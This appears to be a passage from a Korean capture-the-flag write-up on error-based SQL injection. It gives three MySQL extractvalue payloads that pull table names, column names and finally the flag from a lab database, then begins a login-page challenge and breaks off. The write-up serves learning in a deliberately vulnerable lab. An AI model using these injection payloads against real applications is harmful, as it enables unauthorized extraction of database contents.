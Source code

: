 이 데이터베이스 이름을 기반으로, **테이블 → 컬럼 → 플래그 값**까지 순차적으로 추출할 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='errSqli' limit 0,1))) and '1'='1
```

> 테이블 이름: **flagTable**

```sql
' or extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='errSqli' and table_name='flagTable' limit 1,1))) and '1'='1
```

> 컬럼 이름: **idx**, **flag**

**flag 컬럼 데이터 추출**
```sql
' or extractvalue(1,concat(0x7e,(select flag from flagTable limit 0,1)))+and+'1'='1
```

![error flag](/assets/web-screenshots/blind-error-based-sqli/sqli2_flag.png)

**최종적으로 flag까지 얻어내는 데 성공하였다.**

---

## SQL Injection 3 (Error Based SQLI)

![sqli3 home](/assets/web-screenshots/blind-error-based-sqli/sqli3_home.png)

이번 문제는 로그인 화면에서 시작된다.
우선, 문제에서 제공된 계정 정보를 이용해 로그인을 시도해보았다.
